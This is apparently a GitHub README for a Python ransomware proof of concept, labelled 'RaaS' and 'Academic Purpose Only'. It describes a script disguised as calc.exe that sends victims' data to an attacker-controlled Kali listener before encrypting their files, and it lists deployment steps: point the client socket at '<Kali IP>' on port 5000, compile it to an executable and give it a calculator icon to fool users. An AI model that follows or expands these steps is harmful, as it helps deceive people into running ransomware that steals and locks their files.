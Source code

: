 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## Academic Purpose Only ##

# Flow #
- Execute socket_server.py on your Kali\n
- Modify raas.py lines 32 client_socket.connect(("<Kali IP>", 5000))
- Run autopytoexe convertor the program as a exe
- Replace Icon to calculator.ico
- Output as a exectuable file
